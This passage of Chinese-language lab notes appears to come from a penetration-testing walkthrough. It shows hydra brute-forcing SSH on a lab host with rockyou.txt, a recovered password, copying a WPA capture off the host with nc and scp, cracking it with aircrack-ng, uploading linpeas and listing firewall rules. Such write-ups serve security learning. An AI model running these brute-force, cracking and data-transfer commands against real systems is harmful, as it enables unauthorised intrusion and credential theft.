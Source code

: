 
----------------------------------------
----------------------------------------
   >
11、无线设备

遇到文件下载不足报错！一会登录进去查看！
---------------------------------------
**.cap文件就是流量文件，流量就像Wireless traffic和eml文件一样
这边需要破解WPA/WPA2密码，可以用aircrack-ng或hashcat来完成！

aircrack-ng -w /root/Desktop/rockyou.txt eg-01.cap**
---------------------------------------

hydra -l eric -P /root/Desktop/rockyou.txt -s 1974 ssh://192.168.253.191
爆破需要N久！！！

ssh eric@192.168.253.191 -p 1974
triscuit*

分析下无线文件包：
find / -name eg-01.cap 2>/dev/null
cp /opt/coloradoftp-prime/home/veronica/eg-01.cap /tmp
cd /tmp
which nc
nc -l 9999 < eg-01.cap
nc 192.168.253.191 9999 > eg-01.cap

发现防火墙不允许传输，先放着！！

项目三十六教过scp文件上传，现在教scp文件下载：
有两种方法：

sudo scp -P 1974 -r eric@192.168.253.191:/tmp/eg-01.cap /root/tmp/
triscuit*
scp也不行！！！

MobaXterm.exe
成功下载！！

aircrack-ng -w /root/Desktop/rockyou.txt eg-01.cap   ---开始爆破！！

      [00:10:24] 3039782/14344392 keys tested (4940.73 k/s) 

      Time left: 38 minutes, 8 seconds                          21.19%

                           KEY FOUND! [ triscuit* ]
10分钟才爆破出来~~~


----------------------------------------
----------------------------------------
12、内部信息枚举
上传linpeas：

1）Linux version 4.4.0-36-generic
2）防火墙规则：
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [0:0]
-A INPUT -i lo -j ACCEPT
-A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 23 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 69 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 137 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 138 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 139 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT